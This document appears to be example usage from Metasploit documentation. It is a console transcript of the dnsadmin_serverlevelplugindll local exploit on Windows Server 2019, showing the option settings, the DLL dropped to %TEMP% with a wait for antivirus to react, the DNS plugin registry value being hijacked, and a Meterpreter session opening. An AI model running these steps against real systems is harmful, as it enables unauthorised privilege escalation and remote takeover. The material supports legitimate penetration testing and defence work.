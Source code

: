 ### Windows Server 2019 Standard x64, writing `msf.dll` to `%TEMP%`
```
msf exploit(multi/handler) > use exploit/windows/local/dnsadmin_serverlevelplugindll 
s[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > show options

Module options (exploit/windows/local/dnsadmin_serverlevelplugindll):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   AVTIMEOUT  60               yes       Time to wait for AV to potentially notice the DLL file we dropped, in seconds.
   DLLNAME    msf.dll          yes       DLL name (default: msf.dll)
   DLLPATH    %TEMP%           yes       Path to DLL. Can be a UNC path. (default: %TEMP%)
   MAKEDLL    false            yes       Just create the DLL, do not exploit.
   SESSION                     yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.17.168.195   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(windows/local/dnsadmin_serverlevelplugindll) > set PAYLOAD windows/x64/meterpreter/bind_tcp
PAYLOAD => windows/x64/meterpreter/bind_tcp
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > set RHOST 172.17.169.123
RHOST => 172.17.169.123
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > set SESSION 1 
SESSION => 1
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > set LPORT 7788
LPORT => 7788
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > exploit

[*] Checking service state...
[*] Building DLL...
[+] Wrote DLL to C:\Users\normal\AppData\Local\Temp\1\msf.dll!
[*] Sleeping for 60 seconds to ensure the file wasn't caught by any AV...
[+] Looks like our file wasn't caught by the AV.
[!] Entering danger section...
[*] Modifying ServerLevelPluginDll to point to C:\Users\normal\AppData\Local\Temp\1\msf.dll...
[+] Registry property serverlevelplugindll successfully reset.
[*] Restarting the DNS service...
[*] Started bind TCP handler against 172.17.169.123:7788
[*] Sending stage (200262 bytes) to 172.17.169.123
[*] Meterpreter session 2 opened (0.0.0.0:0 -> 172.17.169.123:7788) at 2020-09-09 14:48:59 -0500

meterpreter > 
[+] Exited danger zone successfully!

meterpreter > getuid
```